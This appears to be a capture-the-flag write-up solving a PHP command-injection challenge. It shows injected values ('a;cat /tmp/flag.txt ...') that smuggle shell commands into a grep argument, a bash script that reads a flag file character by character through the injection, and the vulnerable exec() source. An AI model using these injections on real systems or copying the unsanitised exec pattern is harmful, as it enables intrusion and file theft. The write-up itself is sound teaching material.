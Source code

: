 ```curl google.com | grep a```

To solve this challenge, the /tmp/flag.txt needs to be broken up letter by letter and checked against a list of possible characters. An easy way to do this is to use the “head” command with the “-c” flag and grep for the string thats expected. All flags start with a lowercase f so to check for that, the following command can be executed: 

```a;cat /tmp/flag.txt | head -c 1 | grep f```

This will return the much desired “Yaaaaaassssss”. This can be used to continue to check for the other values too:

```a;cat /tmp/flag.txt | head -c 2 | grep fl```

```a;cat /tmp/flag.txt | head -c 3 | grep fla```

```a;cat /tmp/flag.txt | head -c 4 | grep flag```

I’ve created the following super-simple script to go check each character against a list of characters in a char.txt file:

```bash
#!/bin/bash

flag="flag%7B"
url="http://127.0.0.1:8089/index.php?url=google.com&string=a;"
i=6
while true; do
    while read char ; do
        echo $flag$char
        curl -s "$url\cat%20/tmp/flag.txt%20|%20head%20-c%20$i%20|%20grep%20$flag$char" | grep "Yaaaaaassssss" &> /dev/null
        if [ $? -eq 0 ]; then
            i=$((i + 1))
            flag="$flag$char"
            echo $flag
            break
        fi
    done < chars.txt
done
```

This is a very simple script and there are many better ways to do this, however, as a POC, this script works. Running this script gets us the following result:

flag{IBeforeEExceptAfterCHasBeenDisprovenByScience}

###Code
```php
<?php
$url = $_GET["url"];
$searchString = $_GET["string"];
echo "Checking if '" . htmlspecialchars($searchString, ENT_QUOTES, 'UTF-8') . "' is found in " . htmlspecialchars($url, ENT_QUOTES, 'UTF-8');
$command = "curl " . $url . "| grep " . $searchString;

exec($command,$output,$success);
echo "</br>";
if($success == 0){
    echo "Yaaaaaassssss! It was found" ;
}else{
    echo "Nope! " . htmlspecialchars($searchString, ENT_QUOTES, 'UTF-8') . " was not found";
}
?>
```
